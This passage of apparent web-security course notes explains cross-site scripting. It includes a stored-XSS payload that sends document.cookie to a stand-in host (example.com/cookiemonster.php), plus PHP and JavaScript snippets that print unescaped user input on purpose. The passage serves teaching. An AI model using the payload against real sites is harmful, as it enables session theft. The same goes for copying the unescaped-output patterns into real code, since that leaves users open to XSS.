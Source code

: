 > 				echo("<p>" . $message . "</p>");
> 			}
> 		?>  
> 	</body>
> </html>
> ```
> > [!info] Solution
> > Possible attack:
> > ```html
> > <script>new Image().src= "http://example.com/cookiemonster.php?"+document.cookie;</script>
> > ```
> > - Message stored in database unmodified
> > - Message retrieved from database and returned by `db_get_chat_messages_for_user`
> > - Message printed into HTML document
> > - Browser executes \<script> tag contents
> > - Session cookie sent to http://example.com/cookiemonster.php

Root cause of XSS: improper escaping/validation. This allows the attacker to violate same origin policy.

### Reflected XSS 
**Attack Backend**:
```php
<html> <body>
	$id = $_GET["id"];  
	$story = get_story_by_id($id);
	if ($story) {
		echo($story);
	} else {
		echo("bad story id: $id");
	}
</body> </html>
```
**Client-side**:
```html
<html><body>
	<script>
	var params = new URLSearchParams(document.location.search);
	var id = params.get("id");  
	var story = get_story_by_id(id);  
	if (story) {
		document.write(story); 
	} else {
		document.write("bad story id: " + id);
	}  
	</script>
</body></html>
```
- Attacker HTML included in web page from request
- Typically in URL parameters or POST data  
- Often included in error message

- Target needs to follow a crafted link
### Stored XSS
- Attacker supplies exploit input beforehand
- Attacker HTML included in web page from database (often user-generated content)
- any visitor can be a target
